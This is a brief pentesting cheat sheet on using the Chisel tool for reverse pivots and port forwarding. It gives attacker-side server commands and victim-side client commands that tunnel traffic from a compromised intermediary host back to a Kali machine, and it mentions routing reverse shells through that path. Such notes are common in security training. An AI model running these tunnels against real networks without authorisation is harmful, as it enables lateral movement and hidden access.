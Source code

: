 ## Reverse Pivot
# Chisel is like SSH tunneling but everything is reversed. Victim tunnels to hacker.
# Victim == client
# Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

# Set up server to listen on port 8000. Be verbose
kali:~# chisel server -p 8000 -reverse -v

# Tell client to connect to server and tell server where to listen
intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port

#! Look at fingerprint option to ensure client only connects to intended servers

## Port Forward/Local Pivot
# If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine
# that can connect to both and forward traffic through
# Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

# Spin up server on kali
kali:~# chisel server -p 8000 -reverse -v

# Link client to server and forward traffic on localhost from 9001 to address foo on port bar
# chisel client $kali_ip:8000 intermediary_port:target_ip:target_port
intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001
